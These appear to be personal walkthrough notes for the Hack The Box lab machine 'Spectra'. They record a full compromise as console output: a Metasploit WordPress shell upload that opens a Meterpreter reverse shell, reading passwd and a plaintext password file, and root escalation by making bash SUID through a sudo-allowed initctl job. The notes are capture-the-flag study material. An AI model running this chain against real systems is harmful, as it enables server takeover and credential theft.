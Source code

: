 We can try bruteforcing Wordpress

We already logged in (see:[[Website]])

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   devteam01        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.229     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /main            yes       The base path to the wordpress application
   USERNAME   administrator    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(unix/webapp/wp_admin_shell_upload) > set vhost spectra.htb
vhost => spectra.htb
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.193:4444 
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/GSTeAjMkdV/HcdrbHlhKL.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted HcdrbHlhKL.php
[+] Deleted GSTeAjMkdV.php
[+] Deleted ../GSTeAjMkdV
[*] Meterpreter session 1 opened (10.10.16.193:4444 -> 10.10.10.229:40898) at 2021-05-18 21:45:21 -0400

```

We got a shell :D

meterpreter > getuid
Server username: nginx (20155)

meterpreter > sysinfo
Computer    : spectra
OS          : Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64
Meterpreter : php/linux

`cat /etc/passwd`
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
root:x:0:0:root:/root:/bin/bash

`cd /opt`
`ls`
VirtualBox
autologin.conf.orig < let's see what's in the [[config]] file
there's a password file in `/etc/autologin`

cd /etc/autologin
ls
passwd
cat passwd
SummerHereWeCome!!

^^^^^ For Katie - `su katie`

since we cant get a terminal, let's SSH instead

katie@10.10.10.229

┌──(root💀kali)-[/media/…/HTB/Boxes/Active Boxes/Spectra]
└─# ssh katie@10.10.10.229         
The authenticity of host '10.10.10.229 (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.229' (RSA) to the list of known hosts.
Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130

there's our first [[Flag]]

katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
(ALL) SETENV: NOPASSWD: /sbin/initctl

https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9

let's edit the file and add;

script
chmod +s /bin/bash
end script

katie@spectra /etc/init $ sudo -u root /sbin/initctl list
long list here lol
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 8652
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# id
uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
bash-4.3# cd /root 
bash-4.3# ls
main  nodetest.js  root.txt  script.sh  startup  test.conf
bash-4.3# cat root.txt
d44519713b889d5e1f9e536d0c6df2fc

[[Shadow]]